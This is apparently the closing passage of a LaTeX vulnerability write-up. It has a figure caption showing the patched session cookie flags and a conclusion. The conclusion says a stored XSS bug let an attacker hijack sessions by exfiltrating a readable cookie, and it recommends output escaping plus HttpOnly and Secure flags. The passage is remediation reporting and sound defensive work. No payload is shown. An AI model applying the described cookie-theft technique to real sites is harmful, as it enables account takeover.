  
\includegraphics[width=0.9\textwidth]{images/patched-cookie-flags.png}
  \caption{The \texttt{squeak-session} cookie now carries the
  \texttt{HttpOnly} and \texttt{Secure} flags.}
\end{figure}

\section{Conclusion}
The stored XSS vulnerability allowed arbitrary JavaScript execution in the
context of every visitor to the feed, which was escalated to full session
hijacking by exfiltrating the readable session cookie. Escaping all
user-supplied content before rendering closes the root cause, while marking
the session cookie \texttt{HttpOnly} and \texttt{Secure} provides defense in
depth in case an escaping mistake is made elsewhere in the application.

\end{document}
